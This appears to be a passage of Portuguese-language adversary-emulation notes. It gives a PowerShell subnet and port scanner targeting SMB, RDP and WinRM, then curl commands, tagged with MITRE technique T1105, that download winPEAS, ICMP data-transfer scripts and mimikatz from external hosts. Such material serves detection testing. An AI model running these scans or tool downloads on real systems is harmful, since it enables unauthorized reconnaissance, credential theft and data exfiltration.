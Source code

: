 ```powershell
$subnet = "192.168.0."
$ports = @(21, 22, 23, 135, 137, 445, 3389, 5985, 5986, 80, 443)
$jobs = @()
1..254 | ForEach-Object {
    $ipAddress = "$subnet$_"
    $jobs += Start-Job -ScriptBlock {
        param ($ip, $ps)
        function Test-Ports {
            param (
                [string]$ipAddress,
                [array]$ports
            )
            $results = @()
            $pingResult = Test-Connection -ComputerName $ipAddress -Count 1 -Quiet
            if ($pingResult) {
                foreach ($port in $ports) {
                    $result = Test-NetConnection -ComputerName $ipAddress -Port $port -WarningAction SilentlyContinue
                    $results += [PSCustomObject]@{
                        IPAddress = $ipAddress
                        Port      = $port
                        Open      = $result.TcpTestSucceeded
                    }
                }
            } else {
                $results += [PSCustomObject]@{
                    IPAddress = $ipAddress
                    Port      = "N/A"
                    Open      = $false
                }
            }           
            return $results
        }
        Test-Ports -ipAddress $ip -ports $ps
    } -ArgumentList $ipAddress, $ports
}
$jobs | ForEach-Object { $_ | Wait-Job }
$results = $jobs | ForEach-Object { $_ | Receive-Job } | ForEach-Object { $_ }
$jobs | ForEach-Object { $_ | Remove-Job }
$results | Select-Object -Property IPAddress,Port,Open | FT -AutoSize -Wrap -Force
```

- Teste de download de arquivos/scripts 
  
  - `CMD`
    - CURL [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      curl -k -s -L https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat -o %tmp%\caldera\downloads\winPEAS_curl.bat
      curl -k -s -L https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 -o %tmp%\caldera\downloads\Invoke-IcmpDownload_curl.ps1
      curl -k -s -L https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 -o %tmp%\caldera\downloads\Invoke-IcmpUpload_curl.ps1
      curl -k -s -L https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe -o %tmp%\caldera\downloads\etl2pcapng_curl.exe
      curl -k -s -L https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe -o %tmp%\caldera\downloads\mimikatz_curl.exe
      curl -k -s -L https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js -o %tmp%\caldera\downloads\mimikatzjs_curl.exe
      ```
    